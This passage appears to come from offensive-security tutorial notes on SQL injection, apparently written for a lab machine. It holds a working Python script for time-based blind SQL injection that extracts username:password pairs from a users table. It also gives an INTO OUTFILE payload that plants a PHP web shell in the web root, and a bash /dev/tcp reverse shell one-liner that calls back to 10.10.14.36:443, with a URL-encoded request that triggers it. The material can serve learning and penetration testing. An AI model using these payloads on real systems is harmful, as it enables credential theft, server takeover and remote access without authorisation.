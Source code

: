 ```python
    for position in range(1, 50):
        for character in range(33, 126):
            # We will do this with an existing id, in this case '1', the we will delay 0.35 seconds
            sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)

            # We can get more complex results. In this case we will retrieve all username:password in users
            # sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)

            p1.status(sqli_url)
  
            # Init chrono
            time_start = time.time()
  
            r = requests.get(sqli_url)

            # End chrono
            time_end = time.time()

            if time_end - time_start > 0.35:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':
    makeSQLI()
```

### SQL Injection -> RCE

#### INTO OUTFILE

We can obtain an *RCE* if the database accepts the *INTO OUTFILE* command, which allows us to export to an *external file* malicious code to be able to execute it later from the browser:

```bash
' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/test.php'-- -
```

Then we can access *test.php* by running the classic *one-liner* to execute a *reverse shell*:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.36/443 0>&1'

http://10.129.95.235/testing.php?cmd=%20bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.36/443+0%3E%261%27
```